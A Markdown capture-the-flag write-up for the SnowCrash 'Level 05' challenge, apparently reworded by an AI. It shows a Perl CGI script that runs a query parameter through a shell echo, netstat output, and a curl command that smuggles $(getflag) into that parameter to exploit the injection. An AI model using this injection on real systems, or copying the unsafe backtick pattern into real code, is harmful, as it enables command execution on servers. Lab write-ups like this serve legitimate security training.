 Here's the revised homework for Level 05, incorporating the additional `netstat` command output, presented in a clear, neutral tone, and structured in Markdown format:

---

# Level 05

## Analysis

In the user's home directory, we found a Perl script named `level04.pl`. The script's content is as follows:

```perl
#!/usr/bin/perl
# localhost:4747
use CGI qw{param};
print "Content-type: text/html\n\n";
sub x {
  $y = $_[0];
  print `echo $y 2>&1`;
}
x(param("x"));
```

Additionally, we executed the `netstat -plunt` command to inspect active Internet connections and the services listening on various ports:

```sh
level04@SnowCrash:~$ netstat -plunt
(No info could be read for "-p": geteuid()=2004 but you should be root.)
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name
tcp        0      0 0.0.0.0:4242            0.0.0.0:*               LISTEN      -
tcp        0      0 127.0.0.1:5151          0.0.0.0:*               LISTEN      -
tcp6       0      0 :::4646                 :::*                    LISTEN      -
tcp6       0      0 :::4747                 :::*                    LISTEN      -
tcp6       0      0 :::80                   :::*                    LISTEN      -
tcp6       0      0 :::4242                 :::*                    LISTEN      -
udp        0      0 0.0.0.0:68              0.0.0.0:*                           -
```

This output, combined with the script's functionality, confirmed that an HTTP server was hosted and listening on port 4747. The script processes a parameter named "x" and passes it to the `echo` command, offering a potential vector for command injection.

To exploit this vulnerability, we performed command injection using the query parameter "x" to inject a command within the `echo` statement as follows:

```sh
curl 'http://localhost:4747/?x=$(getflag)'
```

This operation successfully executed the injected command, leading to the acquisition of the flag.